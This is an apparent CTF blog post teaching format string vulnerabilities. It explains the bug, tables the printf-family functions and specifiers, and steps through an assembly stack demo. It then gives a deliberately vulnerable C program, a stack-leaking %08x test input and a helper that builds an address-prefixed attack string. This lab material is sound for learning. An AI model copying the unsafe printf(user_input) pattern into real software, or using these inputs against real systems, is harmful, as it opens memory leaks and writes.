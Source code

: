 ```yaml
---
layout: ctf
title: "learn android by game"
date: 2014-07-11 19:00:00
categories: ctf
---
```

#1. About format_string_vulnerability
	
	1. The Format String exploit occurs when the submitted data of an input string is evaluated as a command by the application. In this way, the attacker could execute code, read the stack, or cause a segmentation fault in the running application, causing new behaviors that could compromise the security or the stability of the system.
	2. The attack could be executed when the application doesn’t properly validate the submitted input. In this case, if a Format String parameter, like %x, is inserted into the posted data, the string is parsed by the Format Function, and the conversion specified in the parameters is executed. However, the Format Function is expecting more arguments as input, and if these arguments are not supplied, the function could read or write the stack.In this way, it is possible to define a well-crafted input that could change the behavior of the format function, permitting the attacker to cause denial of service or to execute arbitrary commands.
#2. Related function and parameter
##2.1. format string output functions:


format fuction | description
 :------------: | :--------------:
   fprintf       | write the printf to a file
   printf | output a formatted string
   sprintf | prints to a string
   snprintf | prints into a string checking the length
   vfprintf | prints the va_arg strcture to a file
   vprintf | prints the va_arg strucure to stdout
   vsprintf | prints the va_arg to a string
   vsnprintf | prints the va_arg to a string checking the length
   

##2.2. Common string format parameters

parameters | output | passed as
:---------: | :------:| :-----:
%p | external representation of a pointer to void | reference
%d | decimal | value
%c | character | value
%u | unsigned decimal | value
%x | hexadecimal | value
%s | string | reference
%n | writes the number of characters into a pointer | reference

#3. experiment
##3.1 stack test when function call
original : <http://blog.csdn.net/feng_zh/article/details/7075986>

code: test_printf(32 bit linux os)

	.section .data
        format: .asciz "%d\n"
	.section .text
	.global _start
	_start:
        pushl $12
        pushl $format
        call printf
        movl $0, (%esp)
        call exit
        
compile and link:

    as -g test_printf.s -o test_printf.o
    ld -lc -I /lib/ld-linux.so.2 test_printf.o -o test_printf
    
    #as -g for debug #ld -lc to link libc.a # ld -I to dynamic link /lib/ld-linux.so.2
    
objdump and gdb

	objdump -d test_printf 
	gdb test_printf
	b start
	run
	s #single step run
	info reg
	x/40 $SP
	
	
##3.2 format string vulnerablity test
original : <http://blog.sina.com.cn/s/blog_70dd16910100qfuh.html>

code: vul_program.c (32 bit linux os)

	#define SECRET1 0x44
	#define SECRET2 0x55
 
	int main(int argc, char *argv[])
	{
	  char user_input[100];
	  int *secret;
	  int int_input;
	  int a, b, c, d; //other variables, not used here.
	 
	  // The secret value is stored on the heap
	  secret = (int *) malloc(2*sizeof(int));
	 
	  // getting the secret
	  secret[0] = SECRET1; secret[1] = SECRET2;
	 
	  printf("The variable secret's address is 0x%8x (on stack)\n", &secret);
	  printf("The variable secret's value is 0x%8x (on heap)\n", secret);
	  printf("secret[0]'s address is 0x%8x (on heap)\n", &secret[0]);
	  printf("secret[1]'s address is 0x%8x (on heap)\n", &secret[1]);
	 
	  printf("Please enter a decimal integer\n");
	  scanf("%d", &int_input);  // getting an input from user
	  printf("Please enter a string\n");
	  scanf("%s", user_input); // getting a string from user
	 
	  // Vulnerable place
	  printf(user_input); 
	  printf("\n");
	 
	  // Verify whether your attack is successful
	  printf("The original secrets: 0x%x -- 0x%x\n", SECRET1, SECRET2);
	  printf("The new secrets:      0x%x -- 0x%x\n", secret[0], secret[1]);
	  return 0;
	}
	
compile

	gcc vul_program.c -o vul_program
	
test

	./vul_program
	input 1 as test
	input string %08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x
	
notes:

	when ASLR closed no int_input required, we can construct the string to specific address.
	useful string construct code:
	contruct_mystring.c
	#include <sys/types.h>
	#include <sys/stat.h>
	#include <fcntl.h>
	 
	int main()
	{
	       char buf[1000];
	       int fp, size;
	       unsigned int *address;
	// Putting any number you like at the beginning of your format string
	       address  = (unsigned int *) buf;
	       *address = 0x22080;
	//Geting the rest of the format string
	       scanf("%s", buf+4);
	       size = strlen(buf+4) + 4;
	       printf("The string length is %d\n", size);
	 
	//Writing buf to "mystring"
	       fp = open("mystring", O_RDWR | O_CREAT | O_TRUNC, S_IRUSR | S_IWUSR);
	       if(fp !=-1)
	       {
	              write(fp, buf, size);
	              close(fp);
	       }
	       else
	       {
	              printf("Open failed!\n");
	       }
	       return 0;
	}

#reference
1. <https://www.owasp.org/index.php/Format_string_attack>
2. <http://www.cis.syr.edu/~wedu/Teaching/cis643/LectureNotes_New/Format_String.pdf>